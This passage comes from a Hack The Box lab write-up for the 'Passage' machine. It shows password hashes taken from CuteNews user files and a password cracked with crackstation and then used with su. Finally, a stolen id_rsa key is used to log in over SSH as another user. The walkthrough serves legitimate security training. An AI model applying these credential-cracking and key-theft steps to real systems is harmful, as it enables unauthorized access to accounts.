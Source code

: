 From here, we can obtain 2 password hashes for nadav@passage.htb and paul@passage.htb.

```
nadav@passage.htb: 7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
paul@passage.htb: e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
```

Using crackstation, we are able to crack the password hash of paul@passage.htb.

![Cracking hashes using crackstation](https://github.com/joelczk/writeups/blob/main/HTB/Images/Passage/crackstation.png)

We can then escalate our privileges to become paul using the ```su``` command.

```
www-data@passage:/var/www/html/CuteNews/cdata/users$ su paul
su paul
Password: atlanta1

paul@passage:/var/www/html/CuteNews/cdata/users$
```

### Privilege Escalation to nadav

Using Linpeas Privilege Escalation script, we were able to find a id_rsa file in /home/paul/.ssh/id_rsa. However, in the id_rsa.pub file, we realize that this id_rsa actually belongs to nadav@passage.

```
-rw-r--r-- 1 paul paul 395 Jul 21  2020 /home/paul/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzXiscFGV3l9T2gvXOkh9w+BpPnhFv5AOPagArgzWDk9uUq7/4v4kuzso/lAvQIg2gYaEHlDdpqd9gCYA7tg76N5RLbroGqA6Po91Q69PQadLsziJnYumbhClgPLGuBj06YKDktI3bo/H3jxYTXY3kfIUKo3WFnoVZiTmvKLDkAlO/+S2tYQa7wMleSR01pP4VExxPW4xDfbLnnp9zOUVBpdCMHl8lRdgogOQuEadRNRwCdIkmMEY5efV3YsYcwBwc6h/ZB4u8xPyH3yFlBNR7JADkn7ZFnrdvTh3OY+kLEr6FuiSyOEWhcPybkM5hxdL9ge9bWreSfNC1122qq49d nadav@passage
```

Next, we will transfer the id_rsa file from the server ot our local machine. Finally, we will then use the id_rsa file to login to the nadav user via ssh.

```
┌──(kali㉿kali)-[~/Desktop/passage]
└─$ sudo chmod 600 id_rsa
                                                                                                                     
┌──(kali㉿kali)-[~/Desktop/passage]
└─$ ssh -i id_rsa nadav@10.10.10.206
Last login: Mon Aug 31 15:07:54 2020 from 127.0.0.1
nadav@passage:~$ 
```
